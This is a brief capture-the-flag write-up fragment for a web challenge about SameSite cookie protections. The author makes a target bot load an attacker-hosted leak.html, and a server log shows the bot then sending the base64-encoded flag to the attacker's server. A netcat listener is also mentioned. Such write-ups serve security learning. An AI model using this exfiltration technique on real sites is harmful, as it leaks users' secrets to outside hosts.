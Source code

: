 Make target visit leak.html page

```
python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
52.207.14.64 - - [04/Apr/2021 08:53:55] "GET /leak.html HTTP/1.1" 200 -
52.207.14.64 - - [04/Apr/2021 08:53:55] "GET /fix_samesite.html HTTP/1.1" 200 -
52.207.14.64 - - [04/Apr/2021 08:53:57] code 404, message File not found
52.207.14.64 - - [04/Apr/2021 08:53:57] "GET /YWN0ZntqYXNvbidzX3NpdGVfaXNuJ3Rfc29fbGF4X2FmdGVyX2FsbH0= HTTP/1.1" 404 -
```

Also nc on 81 port and make target wait a little
